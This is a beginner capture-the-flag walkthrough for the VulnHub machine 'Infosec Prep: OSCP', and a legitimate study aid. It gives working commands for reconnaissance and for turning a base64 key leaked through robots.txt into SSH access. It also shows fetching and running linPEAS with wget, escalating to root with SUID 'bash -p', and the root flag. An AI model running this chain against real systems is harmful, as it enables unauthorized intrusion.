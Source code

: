 # Infosec Prep: OSCP

## Introduction

Name : Infosec Prep: OSCP

Link : [Infosec Prep](https://vulnhub.com/entry/infosec-prep-oscp,508/)

- This CTF is the perfect choice for beginners, as it offers an exciting opportunity to sharpen your enumeration skills and master basic Linux privilege escalation techniques.
- Designed by the talented Falcon Spy, with the support of Infosec Prep Discord server staff, this machine promises an exhilarating experience. 
- Get ready to embark on a thrilling cybersecurity journey as we delve into the intricacies of this machine.



## Step 1: Discovering the IP and Network Status

Our first mission is to discover the target machine's IP and check if it's on the network. Execute the following command to accomplish this:

```
netdiscover -r 192.168.0.0/16
```

![Netdiscover](Img/1_Netdiscover.png)

In my case, the IP is `192.168.141.133`; however, yours might be different.

## Step 2: Nmap Scan - Unraveling Open Ports

Now, let's unleash the power of Nmap to scan the target machine and identify open ports. Execute the following command:
```
nmap -A -o -v -T4 192.168.141.133
```

Nmap scan result revealing open ports 80 and 22.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.4.2

```

Indicating a web server and an accessible SSH service.

## Step 3: Web Server Enumeration

Excitement intensifies as we explore the open port 80 - a web server! By typing the IP in the browser, behold the WordPress services running.

![Webpage](Img/2_Browser_main_page.png)

Now, we shall use the mighty dirb tool to discover the website's available directories:

```
dirb http://192.168.141.133/
```

![Dirb](Img/3_Dirb.png)

Here we see `robots.txt` available so visit it on the browser.

![Robots_txt](Img/4_robots_txt.png)

## Step 4: Decoding Hidden Secrets

The `robots.txt` file reveals a mysterious secret text file with encoded hash codes. 

![Secret_txt](Img/5_Secret_txt.png)

After some research, we found that these codes are in Base64 encoding, it might be OpenSSH private key. We save this hash in a file called `secret.txt`.

![Save_Secret_txt](Img/6_Save_secret_txt.png)

To convert this hash into an OpenSSH private key, decode it using the command:

```bash
cat secret.txt | base64 -d > id_rsa
```

Next, give `600` permissions to the private key file, this permission required to use file in ssh:

```bash
chmod 600 id_rsa
```

We also noticed that the webpage shows a single user named `oscp`.

![Only_User](Img/7_oscp_user.png)

## Step 5: Logging in as `oscp` User

Now, we can log in to the `oscp` user account using the private key, use this command to login:

```bash
ssh -i id_rsa oscp@192.168.141.133
```

![Login_ssh](Img/8_Login_SSH.png)

Using the `id` command, we confirm that we have the `oscp` user ID and this account also has sudo permissions.

![Id_user](Img/9_Id_User.png)

## Step 6: Privilege Escalation - linPEAS

There is a bash script called [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) used to find vulnerable files that can help us gain root access. We can run the bash script only in the tmp folder, so navigate to the tmp folder using:

```bash
cd ../../tmp/
```

Download the bash script using wget in tmp folder using:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Give executable permission to run the file:

```bash
chmod +x linpeas.sh
```

Now, run the script:

```bash
./linpeas.sh
```

Wait until the script execution completes. 

![Linpeas_result](Img/10_Linpeas.png)

In the result, we find that the file `/usr/bin/bash` is open and has root access, indicating a potential privilege escalation.

## Step 7: Escalating to Root

Use the following command to gain root access to the vulnerable file:

```bash
/usr/bin/bash -p
```

Or you can also use command:

```bash
bash -p
```

![Bash_-p](Img/11_Bash_-p_root.png)

Now, we have the root user ID.

## Step 8: Finding the Flag

Navigate to the root folder:

```bash
cd ../root/
```

View the content of the `flag.txt` file to retrieve the root flag:

```bash
cat flag.txt
```

![Flag](Img/12_Root_Flag.png)

The `flag.txt` contains the second flag: 

```
d73b04b0e696b0945283defa3eee4538
```

